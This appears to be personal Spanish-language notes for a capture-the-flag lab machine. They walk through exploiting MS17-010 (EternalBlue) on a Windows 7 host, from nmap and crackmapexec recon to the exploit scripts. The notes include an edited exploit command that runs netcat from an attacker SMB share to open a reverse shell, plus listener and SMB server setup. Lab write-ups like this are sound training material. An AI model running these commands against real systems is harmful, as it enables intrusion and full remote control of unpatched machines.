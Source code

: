 ## Summary

Tags: 
Y
- IP -> 10.10.10.40
- Ports -> TCP (135, 139, 445, 49152 - 57), UDP (idk)
- OS ->  
- Services & Applications
    -  -> 
    -  -> 

## Recon
- Comando -> **crackmapexec smb {ip_targeted}** Para listar recursos compartidos de Windows. Enotramos un Windows 7 x64
- Comando -> **nmap --scripts “vuln and safe” -p< PORT> < TARGET IP> -oN < FILENAME>** Lanzara vulnerabilidades que no sean muy intrusivas de tipo seguro, va a mandar scripts al puerto 445 para saber si tiene alguna vulnerabilidad que podamos explotar y encontramos el ms17-010 Ethernal Blue

Descargamos el exploit del Ethernalblue de la siguiente pagina
- **python2 checker.py 10.10.10.40**
	- Si el Checker no nos agarra, revisar que tenga guest en username
Aqui debemos de ver que alguno de los resultados nos ponga OK
- **python2 zzz.exploit.py 10.10.10.40 browser**
Con el zzz dentro del archivo podremos colocar un comando, el cual sera el siguiente:
- service_exec(conn, r'cmd /c  **\\\\10.10.14.17\\SmbFolder\\nc.exe -e cmd 10.10.14.17 443**') 
Haremos que mediante un recurso compartido, ejecute el netcat y nos otorgue una consola interactiva 

Antes debemos de decargarnos el binario para Windows del netcat, en este caso de x64
- **unzip netcat.zip -d netcat** Para que lo descargado se guarde en una carpeta llamada 'netcat'
- **cp netcat/nc64.exe nc.exe** Nos copiamos el netcat de x64 al directorio actual de trabajo pero como netcat 

- **rlwrap nc -nlvp 443** Nos ponemos en escucha 
- **impacket-smbserver smbFolder $(pwd) -smb2support** Creamos nuestro recurso compartido en donde esta el netcat que vamos a compartit y le damos soporte por si las dudas a la version 2 de Windows

Ejecutamos el comando anterior y obtenemos la consola como nt authority/system
